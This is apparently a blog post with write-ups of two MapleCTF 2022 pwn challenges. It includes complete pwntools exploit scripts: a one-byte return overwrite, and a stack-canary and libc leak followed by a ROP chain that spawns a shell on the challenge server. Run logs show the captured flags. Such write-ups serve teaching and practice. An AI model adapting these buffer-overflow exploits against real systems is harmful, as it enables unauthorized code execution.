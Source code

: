 ```yaml
---
layout: post
title: MapleCTF 2022
author: Kolja
categories: [CTF]
tags: [pwn]
---
```


## warmup1

This was a simple buffer overflow in which we overwrote one byte to return to the `win`  function. So we first needed the offset for which we can use `msf-pattern_create`:

```
$ msf-pattern_create -l 100 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

After we find the pattern, that would end up in `rip`, using `gdb` we can then use `msf-pattern_offset` to find the right offset:
```
$ msf-pattern_offset -q 0x6241396141386141 -l 100
[*] Exact match at offset 24
```

To exploit this we used `pwntools` and the following script:
```
#!/usr/bin/env python
# coding: utf-8
import sys
import time
from pwn import *

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("warmup1.ctf.maplebacon.org", 1337)
    else:
        p = process("./chal")
        #p = gdb.debug("./chal", gdbscript='break vuln')
    
    # Building our exploit:
    offset = 24
    exploit = b"A" * offset + b"\x19"
    
    # Receive until input prompt
    print("[+] Sending our exploit")
    p.send(exploit)
    # Note that if your program never ends, you will never see any output
    p.interactive()
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

Here we exploit, that we know that the last byte of the `win` functions address is `\x19` and all other bytes are equal to the address of our vulnerable function. Therefore even though `ASLR` is active for this challenge we can return to the win function. The exploitation was successful:
```
$python3 warmup1.py remote 
[+] Opening connection to warmup1.ctf.maplebacon.org on port 1337: Done
[+] Sending our exploit
[*] Switching to interactive mode
maple{buwuffer_owoverflow_UwU}
[*] Got EOF while reading in interactive
```


## warumup2

This was the second warmup challenge in this CTF. The source code of the vulnerable function looked as follows:
```
void vuln(void)

{
  long in_FS_OFFSET;
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What\'s your name?");
  read(0,local_118,0x1337);
  printf("Hello %s!\n",local_118);
  puts("How old are you?");
  read(0,local_118,0x1337);
  printf("Wow, I\'m %s too!\n",local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Note that we can read data from the stack and then have a second write to the stack. This allows us to modify the stack canary for reading data on the stack and then overwrite it again before returning. 

Essentially we first read the stack canary by overwriting data up to the value of the stack canary. It was necessary to overwrite a null byte here and therefore to modify the stack canary. Afterward, we can simply write the expected bytes to the stack canary again and use the trick from `warumup1` to return to the vulnerable function again. 

We can then leak the return address and the address of `__libc_start_main_ret` in the same way:
```
└─$ python3 warmup2.py remote
[+] Opening connection to warmup2.ctf.maplebacon.org on port 1337: Done
[...]
[+] Leaking libc address
0x7f835d7b7083
```

We can use [libc.rip](https://libc.rip/#) to find the libc version used in the challenge:
![libc_rip_screenshot](/assets/maple_ctf_libc_rip.png)

With the libc used for the challenge, we can then build a `rop chain` to drop a shell and retrieve the flag. The complete script used for the exploitation looked as follows: 

```
#!/usr/bin/env python
# coding: utf-8
import sys
import time
from pwn import *

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("warmup2.ctf.maplebacon.org", 1337)
    else:
        p = process("./chal")
        #p = gdb.debug("./chal", gdbscript='break vuln')
    
    print("[+] Leaking a stack address and the canary")
    p.recvuntil(b"What's your name?\n")
    offset = 264
    exploit = b"A" * (offset-3) + b"ABCD"
    p.send(exploit)
    p.recvuntil(b"ABCD")
    leak_canary = b"\x00" + p.recv(7)
    leak_canary = int.from_bytes(leak_canary, "little")
    print(hex(leak_canary))
    leak_stack = p.recvuntil(b"!")
    leak_stack = leak_stack[:-1]
    leak_stack = int.from_bytes(leak_stack, "little")
    print(hex(leak_stack))
    p.recvline()
    exploit = b"A" * offset + p64(leak_canary) + p64(leak_stack)  + b"\xdd" 
    p.send(exploit)

    print("[+] Leaking the return address this time")
    p.recvuntil(b"What's your name?\n")
    offset = 264
    exploit = b"A" * (offset+12) + b"ABCD" 
    p.send(exploit)
    p.recvuntil(b"ABCD")
    leak_main = p.recvuntil(b"!")
    leak_main = leak_main[:-1]
    leak_main = int.from_bytes(leak_main, "little")
    print(hex(leak_main))
    p.recvline()
    exploit = b"A" * offset + p64(leak_canary) + p64(leak_stack) + b"\xdd"
    p.send(exploit)
    
    print("[+] Leaking libc address")
    p.recvuntil(b"What's your name?\n")
    offset = 264
    exploit = b"A" * (offset+28) + b"ABCD" 
    p.send(exploit)
    p.recvuntil(b"ABCD")
    leak_libc = p.recvuntil(b"!")
    leak_libc = leak_libc[:-1]
    leak_libc = int.from_bytes(leak_libc, "little")
    print(hex(leak_libc))
    p.recvline()
    
    system_offset = 0x52290 #remote
    start_main_offset = 0x24083 #remote 
    
    #system_offset = 0x45880
    #start_main_offset = 0x2381d
    return_main_offset = 0x12e2
    pop_rsi_offset = 0x1351
    pop_rdi_offset = 0x1353

    system_function = leak_libc - start_main_offset + system_offset
    rsi_gadget = leak_main - return_main_offset + pop_rsi_offset
    rdi_gadget = leak_main - return_main_offset + pop_rdi_offset
    
    binsh_string = leak_stack + 48 
    
    print("[+] Triggering exploit")
    exploit = b"A" * offset + p64(leak_canary) + p64(leak_stack) + p64(rsi_gadget) + b"\x00" * 16 +  p64(rdi_gadget) + p64(binsh_string) + p64(system_function) + b"/bin/sh\x00" * 5
    p.send(exploit)
    
    
    p.interactive()
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

Using this script it was possible to drop a shell on the remote server and retrieve the flag:

```
[+] Opening connection to warmup2.ctf.maplebacon.org on port 1337: Done
[+] Leaking a stack address and the canary
0x588e673335c8a00
0x7ffdd2df7620
[+] Leaking the return address this time
0x5559898082e2
[+] Leaking libc address
0x7f10f5d95083
[+] Triggering exploit
[*] Switching to interactive mode
How old are you?
Wow, I'm AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA too!
$ whoami
ctf
$ ls 
banner_fail
chal
challenge.sh
flag.txt
xinetd.conf
$ cat flag.txt
maple{we_have_so_much_in_common}
$  
```


